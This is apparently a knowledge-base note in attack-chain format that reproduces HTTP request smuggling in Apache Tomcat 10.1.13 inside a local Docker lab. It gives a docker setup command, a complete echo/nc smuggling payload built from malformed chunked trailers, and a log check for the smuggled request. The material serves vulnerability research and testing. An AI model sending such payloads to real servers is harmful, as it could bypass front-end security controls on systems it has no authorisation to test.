

---
tags:
  - http-request-smuggling
  - tomcat
  - vulnerability-exploitation
  - web
type: attack_chain
tools:
  - '[[tools/Docker]]'
  - '[[tools/nc]]'
  - '[[tools/echo]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
commands:
  - '[[commands/docker-run-tomcat-vulnerable]]'
  - '[[commands/echo-nc-send-smuggling-payload]]'
  - '[[commands/docker-exec-cat-tomcat-logs]]'
platforms:
  - Web
  - Linux
  - Docker
complexity: medium
procedures:
  - '[[procedures/Set-Up-Vulnerable-Tomcat-Instance-with-Docker]]'
  - '[[procedures/Send-Crafted-HTTP-Request-Smuggling-Payload]]'
  - '[[procedures/Verify-Exploitation-by-Checking-Tomcat-Logs]]'
step_count: 3
techniques:
  - '[[Exploit Public-Facing Application]]'
description: >-
  Exploitation of HTTP Request Smuggling vulnerability in Apache Tomcat by
  crafting invalid trailer headers to smuggle additional requests, potentially
  bypassing security mechanisms.
skill_level: intermediate
impact_level: high
id: 3b94e9c1-94b3-475f-a5d7-ab77faee2988
created_at: '2025-12-13T09:01:22.429Z'
updated_at: '2025-12-13T09:01:22.429Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# HTTP Request Smuggling in Apache Tomcat via Invalid Trailer Headers

Multi-stage attack chain demonstrating the exploitation of an HTTP Request Smuggling vulnerability in Apache Tomcat due to improper parsing of HTTP trailer headers, allowing smuggling of additional requests to bypass security mechanisms.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Docker]]
- [[tools/echo]]
- [[tools/nc]]

### Target Environment

- Linux host with Docker installed
- Ports: 8080 (container), 43022 (host-mapped)
- Services: Apache Tomcat 10.1.13

### Initial Access Requirements

- Local access to the host running Docker
- No credentials required for setup
- Network access to localhost on port 43022

## Detailed Attack Procedures

### Step 1: Set Up Vulnerable Environment
procedure: [[procedures/Set-Up-Vulnerable-Tomcat-Instance-with-Docker]]

**Objective**: Deploy a vulnerable Apache Tomcat instance using Docker to reproduce the vulnerability.

**Instructions**: Launch the Docker container with the vulnerable Tomcat version using [[commands/docker-run-tomcat-vulnerable]]:

```bash
docker run -d --name hrs_tomcat_11 -p 43022:8080 tomcat:10.1.13
```

**Expected Output**: Container ID or startup confirmation, indicating the Tomcat server is running and accessible on port 43022.

**Success Indicators**:
- Docker container starts successfully
- Tomcat responds to requests on localhost:43022

### Step 2: Execute Request Smuggling
procedure: [[procedures/Send-Crafted-HTTP-Request-Smuggling-Payload]]

**Objective**: Send a specially crafted HTTP payload exploiting the trailer header parsing flaw to smuggle an additional request.

**Instructions**: Generate and send the payload using [[commands/echo-nc-send-smuggling-payload]]:

```bash
echo -n 'POST /benign_path HTTP/1.1\r\nHost: a.com\r\nConnection: keep-alive\r\nTransfer-Encoding: chunked\r\n\r\n5\r\n12345\r\n0\r\nContent: hello\r\na\r\n\r\nPOST /benign_path HTTP/1.1\r\nHost: a.com\r\nConnection: keep-alive\r\nContent-Length: 37\r\n\r\nGET /evil_path HTTP/1.1\r\nAny: any\r\nHost: b.com\r\n\r\n' | nc 127.0.0.1 43022
```

**Expected Output**: HTTP responses from the server, triggering the smuggling without direct output shown, but the payload is sent successfully.

**Success Indicators**:
- Payload sent without errors
- Server processes the smuggled request

### Step 3: Verify Exploitation
procedure: [[procedures/Verify-Exploitation-by-Checking-Tomcat-Logs]]

**Objective**: Confirm the smuggled request was processed by examining the Tomcat access logs.

**Instructions**: Access the container logs using [[commands/docker-exec-cat-tomcat-logs]]:

```bash
docker exec -it hrs_tomcat_11 /bin/sh -c "cat /usr/local/tomcat/logs/localhost*"
```

**Expected Output**: Log entries showing processed requests, e.g., 'POST /benign_path HTTP/1.1' 404 and 'GET /evil_path HTTP/1.1' 404.

**Success Indicators**:
- Logs show the smuggled 'GET /evil_path' request
- Confirmation of vulnerability exploitation

## Attack Chain Summary

### Key Achievements

1. Successful setup of vulnerable Tomcat environment
2. Execution of request smuggling via crafted payload
3. Verification of smuggled request processing

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

*Last updated: 2023-10-01*
